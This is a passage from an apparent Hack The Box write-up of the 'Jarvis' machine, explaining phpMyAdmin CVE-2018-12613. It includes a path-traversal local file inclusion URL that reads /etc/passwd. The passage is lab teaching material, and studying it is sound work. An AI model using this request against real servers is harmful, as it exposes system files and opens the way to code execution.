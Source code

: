     <img width="700" height="400" src="resources/images/phpmyadmin-webshell.png">
</p>

### Exploiting CVE-2018–12613

A more detailed description of the vulnerability can be found [here](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e).
Basically, we can include any file we want from the remote server in a request like this:

```
http://jarvis.htb/phpmyadmin/index.php?target=sql.php%3f/../../../../etc/passwd
```

<p align="center">
    <img width="700" height="400" src="resources/images/phpmyadmin-lfi.png">
</p>
